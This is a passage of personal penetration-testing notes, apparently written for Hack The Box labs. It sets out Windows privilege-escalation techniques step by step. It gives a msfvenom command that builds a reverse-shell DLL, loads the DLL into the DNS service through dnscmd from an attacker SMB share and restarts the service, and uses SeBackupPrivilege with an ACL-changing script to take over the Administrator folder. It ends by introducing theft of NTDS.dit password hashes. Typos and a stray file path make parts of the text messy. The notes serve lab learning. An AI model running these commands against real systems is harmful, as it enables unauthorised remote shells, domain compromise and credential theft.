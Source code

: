 Maliciouis DLL file: 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.4.1 LPORT=4444 -f dll > exploit.dll

# Export this with SMB service (victim machinls

dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.8\share\exploit.dll

# Powershell
cmd /c 'dnscmd /config /serverlevelplugindll \\10.10.14.8\share\exploit.dll'

# Stop and Start the DNS service which will download the malicious dll file and execute it
sc.exe stop dns ; sc.exe start dns


```

If attack *Fails* then check the `ServerLevelPluginDll` in DLL file:
```powershell
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

## Backup Account
#Blackfield_HTB 

Check the privileges `whoami /priv` and check if the account is in backup acount `net user svc_backup` 
if,
- [ ] It has `SeBackupPrivilege` and `SeRestorePrivilege`

then we can escilate the priivleges of this current account using [Acl-FullControl](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1) script, can be read in [this](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sebackupprivilege-3-1-4) article

*This script allows user to chnage the ACL for that specified file or Directory*

```bash
# Syntax
Import-Module .\Acl-FullControl.ps1
Acl-FullControl -user [domain]\[user] -path C:\Users\Administrator\


# Example
Acl-FullControl -user blackfield.local\svc_backup -path C:\Users\Administrator\
```



## Steal NTDS.dit
It is very common during penetration tests where domain administrator access has been achieved to extract the password hashes of all the domain users for offline cracking and analysis. These hashes are stored in a database file in the domain controller (NTDS.DIT) with some additional information like group memberships and users.
